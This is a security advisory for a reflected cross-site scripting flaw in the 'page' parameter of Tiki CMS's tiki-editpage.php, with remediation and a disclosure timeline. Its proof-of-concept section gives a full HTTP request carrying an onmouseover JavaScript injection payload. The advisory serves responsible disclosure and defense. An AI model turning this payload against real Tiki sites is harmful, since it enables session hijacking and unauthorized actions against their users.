

# CVE-2024-46878 - Tiki CMS Reflected Cross-Site Scripting (XSS) Vulnerability

> Tiki CMS - 'page' Parameter Reflected Cross-Site Scripting (XSS) Vulnerability

## Disclaimer
Intended only for **educational, research, and defensive purposes**. Unauthorized use against systems without permission is illegal.

## Summary
A Reflected Cross-Site Scripting (XSS) vulnerability exists in the page parameter of tiki-editpage.php in Tiki version 26.3 and earlier. This vulnerability allows attackers to execute arbitrary JavaScript code via a crafted payload, leading to potential access to sensitive information or unauthorized actions. 

## Affected Product(s)
- Product: Tiki CMS Groupware
- Versions: 26.3 and earlier
- Component: tiki-editpage.php

## Vulnerability Details
The vulnerability is caused by improper input sanitization of the `page` parameter in `tiki-editpage.php`. User-supplied input is reflected in the HTTP response without sufficient encoding, allowing execution of injected JavaScript.

## Impact
Allows an authenticated attacker to execute arbitrary JavaScript in another user’s browser via a crafted request, potentially leading to session hijacking or unauthorized actions.

## Proof of Concept (PoC)

### Request
```http
GET /tiki-editpage.php?page=%22%20onmouseover%3Dalert(document.domain)%20 HTTP/1.1
Host: 127.0.0.1:9089
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:129.0) Gecko/20100101 Firefox/129.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Cookie: local_tz=Asia%2FKolkata; PHPSESSIDCV=51zQV%2BMxUnJxFY9nnRP%2FFg%3D%3D; javascript_enabled=y; PHPSESSID_CSRF=t2A6i9BjH1QHEH8KaLag0jtgT4dK9TTzyn8sOcRVwg9SMycfxWjoeYFmTykOfVjNPotrBKqsizXJ%2BrYcEXci8QPZxiSyBwA5YFLRS1S2RgxeTAI%3D; PHPSESSID=e19c8b25df427a7892245dc919be2067
Upgrade-Insecure-Requests: 1
Priority: u=0, i
```



## Remediation
The issue has been addressed in Tiki CMS Groupware version 27.1. Users are advised to upgrade to this or a later patched release.

**Vendor Reference**: https://tiki.org/article514-New-Security-Updates-Released-for-Tiki-27-x-LTS-26-x-and-24-x-LTS-and-Upgrade-is-Strongly-Recommended

## Timeline
- Reported to vendor: September 5, 2024
- Vendor acknowledgment: September 16, 2024
- Fixed in version 27.1: December 22, 2024
- Public disclosure (via this repository): March 23, 2026

## Credits
- Sheela Sarva, Qualys  
- Mayank Deshmukh, Qualys

### Reference
- https://www.cve.org/CVERecord?id=CVE-2024-46878
- https://tiki.org/article514-New-Security-Updates-Released-for-Tiki-27-x-LTS-26-x-and-24-x-LTS-and-Upgrade-is-Strongly-Recommended
